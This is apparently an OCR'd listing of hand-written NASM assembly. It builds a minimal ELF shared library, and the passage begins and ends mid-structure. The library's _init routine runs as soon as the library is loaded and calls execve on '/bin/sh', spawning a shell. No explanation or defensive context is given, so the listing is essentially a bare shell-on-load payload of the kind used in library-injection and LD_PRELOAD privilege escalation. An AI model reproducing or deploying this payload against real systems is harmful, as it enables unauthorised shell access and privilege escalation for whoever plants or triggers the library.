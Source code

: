 ```asm
  dq filesize ; p-offset
  dq 0x200000 + filesize
  dq 0x200000 + filesize
  dq 0xc0
  dq 0xc0
  dq 0x8
  dq 0xB2719A12
dt_hash:
  dd 3
  dd 1
  dd 1
  dd 6
dt_symtab:
  dd 0
  db 0
  db 0
  dw 0
  dq 0
  dq 0
  dd 7
  db 0x10
  db 0
  dw 7
  dq 0x200300
  dq 0
  dd 0x1a
  db 0x10
  db 0
  dw 7
  dq 0x200300
  dq 0
  dd 1
  db 0x12
  db 0
  dw 5 
  dq _init
  dq 0
dt_strtab:
  db 0
  db "_init", 0
  db "_edata", 0
  db "__bss_start", 0
  db "_end", 0
  db 0
  dq 0
_init:
  xor rax,rax
  mov rdx, rax
  mov rbx,'/bin/sh'
  push rbx
  mov rdi,rsp
  push rax
  push rdi
  mov rsi,rsp
  mov al, 59
  syscall
filesize  equ  $ - $$
dynamic:
  dq 0x0c
  dq _init
  dq 0x6FFFFEF5 ; dummy dt_hash
  dq dt_hash
  dq 0x5
```